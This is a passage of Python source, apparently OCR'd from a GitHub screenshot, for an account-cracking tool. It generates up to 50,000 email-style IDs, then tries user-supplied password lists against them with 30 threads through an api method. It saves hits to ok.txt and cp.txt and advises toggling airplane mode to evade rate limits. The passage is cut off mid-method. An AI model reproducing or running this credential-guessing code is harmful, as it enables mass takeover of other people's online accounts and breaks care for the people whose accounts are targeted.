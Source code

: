 		print("%s EXAMPLE  : %s@gmail.com, @yahoo.com, @hotmail.com ETC"%(Y,G))

		idx = input("%s DOMAIN  : "%(B))

		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))

		if (limit)>50000:

			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))

		try:

			for n in range(limit):

				_ = random.randint(x,xx)

				__ = idx

				___ = nam

				self.id.append(___+str(_)+__)

			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 

			with ThreadPoolExecutor(max_workers=30) as coeg:

				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))

				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G)) 

				listpass = input(" [?] ENTER PASSWORD : ")

				if len(listpass)<=5:

					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))

				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))

				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))

				print("%s [+] CP RESULT SAVED IN -> cp.txt"%(Y))

				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))

				for user in self.id:

					coeg.submit(self.api, user, listpass.split(","))

			exit("\n\n%s [#] CRACK COMPLETE..."%(G))

		except Exception as e:exit(str(e))

		

	def oldcrack(self):

		x = 11111111

		xx = 99999999

		idx = " 13"

		#idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])

		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(500000 MAX): \033[0;92m"))
